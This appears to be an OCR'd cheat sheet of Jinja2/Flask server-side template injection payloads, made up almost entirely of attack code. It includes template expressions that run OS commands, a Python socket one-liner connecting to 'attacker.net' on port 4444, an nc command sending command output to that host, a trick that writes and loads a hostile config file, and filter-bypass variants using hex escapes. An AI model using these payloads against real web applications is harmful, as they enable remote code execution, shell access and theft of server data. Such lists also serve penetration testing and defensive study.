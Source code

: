 ```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.net\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"/etc/passwd\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Command execution via HTTP GET parameter:

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}&input=id
```

Evil config file

```python
# Evil Configuration
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# Load the Evil Configuration
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# Command execution
{{ config['RUNCMD']('id | nc attacker.net 80"',shell=True) }}
```

Filter bypass

```python
request.__class__

request["__class__"]

# Bypassing _
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}

{{request|attr(["_"*2,"class","_"*2]|join)}}

{{request|attr(["__","class","__"]|join)}}

{{request|attr("__class__")}}

{{request.__class__}}

# Bypassing [ and ]
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_

http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Bypassing |join
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_

# Bypassing common filters
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
